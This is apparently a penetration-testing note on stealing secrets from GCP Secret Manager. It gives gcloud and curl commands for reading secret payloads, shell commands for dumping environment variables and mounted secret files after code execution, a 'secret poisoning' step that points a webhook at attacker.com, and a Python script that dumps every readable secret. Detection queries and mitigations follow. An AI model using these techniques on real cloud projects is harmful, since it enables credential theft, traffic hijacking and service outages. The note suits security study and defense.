

# Extracting Secrets from GCP Secret Manager

## 1. Overview of GCP Secret Manager

GCP Secret Manager is a secure and convenient storage system for API keys, passwords, certificates, and other sensitive data. It provides a central place and single source of truth to manage, access, and audit secrets across Google Cloud.

Unlike HashiCorp Vault or AWS Secrets Manager, GCP Secret Manager treats secrets as first-class GCP resources, integrating deeply with Cloud IAM. A "Secret" is a logical wrapper that contains metadata and IAM policies. The actual sensitive payload is stored in immutable "Secret Versions."

For an attacker, gaining read access to Secret Manager is often equivalent to finding the keys to the kingdom. Extracted database credentials, third-party API keys, or private certificates can facilitate deep lateral movement or data exfiltration.

## 2. Access Control Architecture

Access to secrets is governed strictly by GCP IAM roles. The critical permissions are:

*   `secretmanager.secrets.list`: Enumerate the names of secrets in a project.
*   `secretmanager.versions.list`: Enumerate the versions of a specific secret.
*   `secretmanager.versions.access`: **The crown jewel.** Allows reading the actual decrypted payload of a secret version.
*   `secretmanager.versions.add`: Allows adding a new version (and payload) to an existing secret.

**Common IAM Roles:**
*   `roles/secretmanager.secretAccessor`: Contains `versions.access`. This is the role an attacker targets.
*   `roles/secretmanager.viewer`: Contains `secrets.get` and `secrets.list`, but **not** `versions.access`. Useful for enumeration but not extraction.
*   `roles/secretmanager.admin`: Full control, including viewing payloads and changing IAM policies.

### ASCII Architecture Diagram: Secret Extraction Flow



## 3. Attack Vector 1: Direct API Extraction

If an attacker compromises a user account or service account (e.g., via SSRF, Workload Identity, or a leaked JSON key) that possesses the `secretmanager.secretAccessor` role, they can extract secrets directly.

### Enumerating Secrets

First, discover what secrets exist in the target project.
```bash
# Using gcloud
gcloud secrets list --project target-project-id

# Using REST API
curl -H "Authorization: Bearer $(gcloud auth print-access-token)" \
     "https://secretmanager.googleapis.com/v1/projects/target-project-id/secrets"
```

### Accessing Secret Payloads

Once the target secret is identified (e.g., `prod-db-credentials`), extract the latest active version.

```bash
# Extracting payload and outputting to terminal
gcloud secrets versions access latest --secret="prod-db-credentials" --project="target-project-id"
```

If using the REST API, note that GCP returns the payload Base64 encoded:
```bash
curl -H "Authorization: Bearer $(gcloud auth print-access-token)" \
     "https://secretmanager.googleapis.com/v1/projects/target-project-id/secrets/prod-db-credentials/versions/latest:access"
```
**Response:**
```json
{
  "name": "projects/123/secrets/prod-db-credentials/versions/3",
  "payload": {
    "data": "c3VwZXJfc2VjcmV0X3Bhc3N3b3JkXzEyMw==",
    "dataCrc32c": "349832794"
  }
}
```
Decode the payload:
```bash
echo "c3VwZXJfc2VjcmV0X3Bhc3N3b3JkXzEyMw==" | base64 -d
# Output: super_secret_password_123
```

## 4. Attack Vector 2: Exploiting Environment Variable and Volume Mounts

Often, developers do not use the Secret Manager SDK directly in their code. Instead, GCP services like Cloud Run, Cloud Functions, and GKE allow mounting secrets as environment variables or files during container startup.

If an attacker achieves RCE, Path Traversal, or LFI (Local File Inclusion) in one of these applications, they can read the secrets without needing IAM permissions (because the platform already fetched and decrypted the secret into the container environment).

### Extrusion via Cloud Run / App Engine Environment
Secrets mounted as environment variables can be dumped easily:
```bash
# In an RCE shell
env | grep -i secret
# Or read the environ file of the current process
cat /proc/self/environ | tr '\0' '\n'
```

### Extrusion via GKE Volume Mounts
In GKE, using the Secret Manager CSI driver, secrets are often mounted as files. Look for common mount paths:
```bash
ls -la /etc/secrets/
ls -la /var/run/secrets/
cat /mnt/secrets-store/db-password
```

## 5. Attack Vector 3: Secret Poisoning for Persistence / DoS

If an attacker holds the `roles/secretmanager.secretVersionManager` role, they can `add` new versions to a secret but cannot `access` existing ones. This presents a unique exploitation scenario: **Secret Poisoning**.

By adding a new version to a critical secret (e.g., an API key used by a backend service) and disabling the previous active version, the attacker can:
1.  **Denial of Service (DoS):** Break the application by injecting garbage data.
2.  **Man-in-the-Middle / Routing Abuse:** If the secret is an external webhook URL or an OAuth client secret, the attacker can replace it with a URL they control, redirecting application traffic or OAuth callbacks to an attacker-controlled server.

**Execution:**
```bash
# Create a payload file
echo "https://attacker.com/webhook" > payload.txt

# Add the new version
gcloud secrets versions add target-webhook-url --data-file=payload.txt

# Disable previous versions to force the app to use the new malicious payload
gcloud secrets versions disable 1 --secret=target-webhook-url
```

## 6. Automated Extrusion Script (Python)

When operating at scale, dumping hundreds of secrets manually is tedious. Below is a Python snippet using the `google-cloud-secret-manager` library to dump all accessible secrets in a project.

```python
from google.cloud import secretmanager

def dump_all_secrets(project_id):
    client = secretmanager.SecretManagerServiceClient()
    parent = f"projects/{project_id}"

    print(f"[*] Enumerating secrets in {project_id}...")
    for secret in client.list_secrets(request={"parent": parent}):
        secret_name = secret.name
        latest_version = f"{secret_name}/versions/latest"
        
        try:
            response = client.access_secret_version(request={"name": latest_version})
            payload = response.payload.data.decode("UTF-8")
            print(f"[+] Secret: {secret_name.split('/')[-1]} | Value: {payload}")
        except Exception as e:
            print(f"[-] Access denied for {secret_name.split('/')[-1]}: {e}")

# Usage requires application default credentials (e.g., export GOOGLE_APPLICATION_CREDENTIALS=...)
# dump_all_secrets("my-target-project-id")
```

## 7. Detection and Threat Hunting

The best way to detect secret extraction is via **GCP Cloud Audit Logs**. Specifically, Data Access logs for Secret Manager.
*Note: Data Access logs are often disabled by default due to volume/cost. They MUST be enabled for Secret Manager to detect `versions.access`.*

**Cloud Logging Query:**
```text
resource.type="secretmanager.googleapis.com/Secret"
protoPayload.methodName="google.cloud.secretmanager.v1.SecretManagerService.AccessSecretVersion"
```
*Hunting Heuristics:*
*   Spikes in `AccessSecretVersion` calls from a single identity over a short period.
*   Access requests originating from IPs outside the expected VPCs or known CI/CD ranges.
*   The use of `gcloud` user agents (`google-cloud-sdk`) when the identity is a production Service Account (which should be using the application SDKs).

## 8. Mitigation Strategies

1.  **Enable Data Access Audit Logs:** Ensure Admin Read, Data Read, and Data Write logs are enabled for the Secret Manager API.
2.  **Least Privilege on IAM Bindings:** Never grant project-wide `roles/secretmanager.secretAccessor`. Apply the role directly on the individual secret resource, granting access only to the specific service account that needs it.
3.  **VPC Service Controls (VPC SC):** Implement VPC SC perimeters around the Secret Manager API to prevent exfiltration. Even if an attacker steals a valid IAM token, VPC SC will block the API call if it originates from an unauthorized IP or outside the trusted perimeter.
4.  **CMEK Integration:** Encrypt secrets using Customer-Managed Encryption Keys (CMEK) via Cloud KMS. This requires an attacker to have both Secret Manager access permissions *and* the `cloudkms.cryptoKeyEncrypterDecrypter` role to view the secret.

## 9. Chaining Opportunities

*   **[[07 - Exploiting GCP Workload Identity]]**: Stealing a GSA token from a Kubernetes pod to access Secret Manager.
*   **[[09 - GCP Cloud Run and App Engine Exploitation]]**: Using SSRF on serverless components to grab the metadata token, then dumping Secret Manager.
*   **[[12 - Privilege Escalation via IAM Bindings]]**: Escalating privileges to grant oneself `secretAccessor` on a project.

## 10. Related Notes

*   [[01 - Introduction to GCP Security Primitives]]
*   [[14 - GCP Cloud KMS Security and Key Extraction]]
*   [[03 - Abusing Compute Engine Default Service Accounts]]
